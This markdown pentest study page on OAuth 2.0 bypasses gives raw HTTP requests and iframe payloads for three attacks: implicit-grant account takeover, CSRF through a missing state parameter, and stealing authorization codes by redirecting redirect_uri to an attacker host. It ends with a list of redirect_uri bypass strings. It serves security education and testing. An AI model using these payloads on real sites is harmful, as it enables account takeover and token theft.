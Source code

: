 ```yaml
---
title: OAuth 2.0 Bypass
category: Web
order: 7
---
```


# Introduction

OAuth is a commonly used authorization framework that enables websites and web applications to request limited access to a user's account on another application. Crucially, OAuth allows the user to grant this access without exposing their login credentials to the requesting application.

# Vulnerabilities in the OAuth client application

Client applications will often use a reputable, battle-hardened OAuth service that is well protected against widely known exploits. However, their own side of the implementation may be less secure.

## **Improper implementation of the implicit grant type**

Once the OAuth 2.0 flow is completed and the token is assigned, the information is sent to the application (username, email and the token). We can bypass the authentication by changing the email and username of the request:

```
# Original Request

POST /authenticate HTTP/1.1
Host: oauth-test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https:/oauth-test.com/oauth-callback
Content-Type: application/json
Origin: https://app-test.com
Content-Length: 103
Connection: close
Cookie: session=Pjx1J1HBlOKuYpE6ngdvP0lwKrc6N6xn


{
    "email":"user@test.com",
    "username":"user",
    "token":"0Uk8oyhR95JLrFnDdsgFBcHdcH1Tcz8GmLoZe6ECOAi"
}
```

```
# Edited Request

POST /authenticate HTTP/1.1
Host: oauth-test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https:/oauth-test.com/oauth-callback
Content-Type: application/json
Origin: https://app-test.com
Content-Length: 103
Connection: close
Cookie: session=Pjx1J1HBlOKuYpE6ngdvP0lwKrc6N6xn


{
    "email":"another@test.com",
    "username":"another",
    "token":"0Uk8oyhR95JLrFnDdsgFBcHdcH1Tcz8GmLoZe6ECOAi"
}
```

## **Flawed CSRF protection (no state parameter)**

Although many components of the OAuth flows are optional, some of them are strongly recommended unless there's an important reason not to use them. One such example is the `state` parameter.

The `state` parameter should ideally contain an unguessable value, such as the hash of something tied to the user's session when it first initiates the OAuth flow. This value is then passed back and forth between the client application and the OAuth service as a form of [CSRF token](https://portswigger.net/web-security/csrf/tokens) for the client application.

Since this state parameter is not available in the request we can link our profile media to an existing account by exploiting a CSRF attack:

```
# CSRF vulnerable request

GET /oauth-linking?code=FIKlXwX7-cq6Xz0nsWmYUhqu1rwrRmKL9haVHOA7zVv HTTP/1.1
Host: app.test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://exploit.test.com/exploit
Cookie: session=4UxlhSNG2r19csEDsUySJwHtVPSyE4eE
Upgrade-Insecure-Requests: 1

```

Payload:

```
# index.html

<iframe src="https://app.test.com/oauth-linking?code=FIKlXwX7-cq6Xz0nsWmYUhqu1rwrRmKL9haVHOA7zVv">
</iframe>
```

## Leaking authorization codes and access tokens

Depending on the grant type, either a code or token is sent via the victim's browser to the `/callback` endpoint specified in the `redirect_uri` parameter of the authorization request. If the OAuth service fails to validate this URI properly, an attacker may be able to construct a CSRF-like attack, tricking the victim's browser into initiating an OAuth flow that will send the code or token to an attacker-controlled `redirect_uri`.

In the case of the authorization code flow, an attacker can potentially steal the victim's code before it is used. They can then send this code to the client application's legitimate `/callback` endpoint (the original `redirect_uri`) to get access to the user's account.

```
# CSRF Vulnerable Request
# Modify the redirect_uri to a coontrolled server

GET /auth?client_id=zg8andmpp2lfjqidng0tr&redirect_uri=https://myserver.com/evil&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-server.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _session=7rn_lI1PoVH0bMKi3_Cmq; _session.legacy=7rn_lI1PoVH0bMKi3_Cmq
Upgrade-Insecure-Requests: 1
```

Payload:

```
#index.html

<iframe src="https://oauth-server.example.com/auth?client_id=zg8andmpp2lfjqidng0tr&redirect_uri=https://myserver.com/evil&response_type=code&scope=openid%20profile%20email">
</iframe>
```

# **Pentesting OAuth 2.0**

## **redirect\_uri validation**

`redirect_uri` parameter should be validated via white list, but sometimes is misconfigured and leads to flaws and vulnerabilities. Things to check:

* Try to remove or add arbitrary paths, query parameters, and fragments to see what you can change without triggering an error.
* Try to append extra values to the default `redirect_uri` parameter: `https://example.com &@foo.evil.com#@bar.evil.com/` .
* Try duplicate `redirect_uri` parameter.
* Begin with `localhost` : `http://localhost.evil.com/`.

# References

* [https://portswigger.net/web-security/oauth](https://portswigger.net/web-security/oauth)
